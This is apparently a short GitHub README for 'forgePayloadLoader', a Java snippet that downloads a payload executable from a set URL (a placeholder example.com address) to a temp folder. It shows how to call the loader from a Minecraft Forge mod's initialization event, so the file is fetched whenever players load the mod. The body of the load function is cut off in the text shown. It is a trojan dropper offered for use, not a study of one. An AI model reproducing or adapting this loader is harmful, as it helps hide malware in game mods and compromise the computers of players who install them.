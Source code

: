 # forgePayloadLoader


# Usage

Edit the variables ```file_url``` and ```filePath``` to your target paths, make sure your mc has permissions to your download location
```
public class loader {
    public static String file_url = "http://example.com/payload.exe";
    public static String filePath = "/Users/Local/Temp/payload.exe";

    public static void load(){
```

# Adding to a forge mod
Add the function to the forge init Event
```
import me.decker.loader

@Mod.EventHandler
    public void init(FMLInitializationEvent event) throws IOException {
    
    loader.load();
    
    }
```

